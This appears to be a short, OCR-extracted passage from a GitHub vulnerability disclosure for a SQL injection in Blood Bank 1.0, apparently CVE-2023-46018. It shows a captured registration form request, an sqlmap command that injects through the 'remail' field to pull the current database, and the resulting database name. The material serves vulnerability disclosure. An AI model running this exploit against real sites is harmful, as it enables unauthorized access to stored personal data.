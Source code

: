 ```
Content-Disposition: form-data; name="rname"

test
-----------------------------2653697510272605730288393868
Content-Disposition: form-data; name="rbg"

A+
-----------------------------2653697510272605730288393868
Content-Disposition: form-data; name="rcity"

test
-----------------------------2653697510272605730288393868
Content-Disposition: form-data; name="rphone"

05555555555
-----------------------------2653697510272605730288393868
Content-Disposition: form-data; name="remail"

test@test
-----------------------------2653697510272605730288393868
Content-Disposition: form-data; name="rpassword"

test123
-----------------------------2653697510272605730288393868
Content-Disposition: form-data; name="rregister"

Register
-----------------------------2653697510272605730288393868--

---
```
+ `sqlmap -r request.txt -p remail --risk 3 --level 3 --dbms mysql --batch --current-db`

+ current database: `bloodbank`
<img width="750" alt="image" src="https://github.com/ersinerenler/CVE-2023-46018-Code-Projects-Blood-Bank-1.0-SQL-Injection-Vulnerability/assets/113091631/c10d2155-b810-40c5-b079-88d4c8088850">
